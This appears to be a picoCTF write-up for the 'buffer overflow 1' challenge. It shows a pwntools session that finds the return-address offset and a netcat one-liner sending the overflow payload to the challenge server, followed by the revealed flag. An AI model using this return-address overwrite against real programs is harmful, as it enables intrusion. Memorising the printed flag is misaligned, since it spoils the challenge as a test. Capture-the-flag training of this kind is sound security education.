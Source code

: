 # buffer overflow 1
Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/251/vuln). You can view source [here](https://artifacts.picoctf.net/c/251/vuln.c). And connect with it using `nc saturn.picoctf.net 58573`

#### Hints
- Make sure you consider big Endian vs small Endian.
- Changing the address of the return pointer can call different functions.

### Solution
```bash    
┌──(kali㉿kali)-[~/picoctf/binaryexplot/bufferover1]
└─$ python                        
Python 3.10.7 (main, Sep  8 2022, 14:34:29) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqa
>>> cyclic_find(0x61616c61)
43
>>> 'A' * 44
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
>>> p32(0x080491f6)
b'\xf6\x91\x04\x08'
>>> 

```

```bash     
┌──(kali㉿kali)-[~/picoctf/binaryexplot/bufferover1]
└─$ echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08' | nc saturn.picoctf.net 58573
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_2e53b270}                                                                                                                                           
┌──(kali㉿kali)-[~/picoctf/binaryexplot/bufferover1]
└─$ 

```

